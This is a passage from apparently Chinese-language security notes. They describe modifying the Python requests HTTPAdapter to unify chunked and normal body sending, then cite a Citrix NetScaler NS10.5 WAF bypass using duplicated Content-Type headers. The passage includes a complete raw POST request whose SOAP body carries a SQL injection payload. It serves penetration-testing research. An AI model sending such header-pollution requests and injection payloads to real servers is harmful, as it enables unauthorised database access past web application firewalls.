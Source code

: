 ## 再度魔改

将分块传输和正常的请求逻辑整合为统一的代码，以便于其他魔改

```
class HTTPAdapter(BaseAdapter):
    def send(self, request, stream=False, timeout=None, verify=True, cert=None, proxies=None):
        ...
        if hasattr(request.body, '__iter__'):
            # 分块传输
            for i in request.body:
                low_conn.send(i)
        else:
            # 非分块传输
            low_conn.send(request.body)
```

又有个需求：[Citrix Netscaler NS10.5 - WAF Bypass (Via HTTP Header Pollution)](https://www.exploit-db.com/exploits/36369)

要求为：

```
First request: ‘ union select current_user,2# - Netscaler blocks it.

Second request: The same content and an additional HTTP header which is “Content-Type: application/octet-stream”. - It bypasses the WAF but the web server misinterprets it.

Third request: The same content and two additional HTTP headers which are “Content-Type: application/octet-stream” and “Content-Type: text/xml” in that order. The request is able to bypass the WAF and the web server runs it.
```

请求报文大概类似：

```
POST /test HTTP/1.1
Host: xxcdd.for.test.com
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; The World)
Accept-Language: zh-cn,en-us;q=0.7,en;q=0.3
Content-Type: application/octet-stream
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      	<string>’ union select current_user, 2#</string> 
	 
	</soapenv:Body>
</soapenv:Envelope>
```
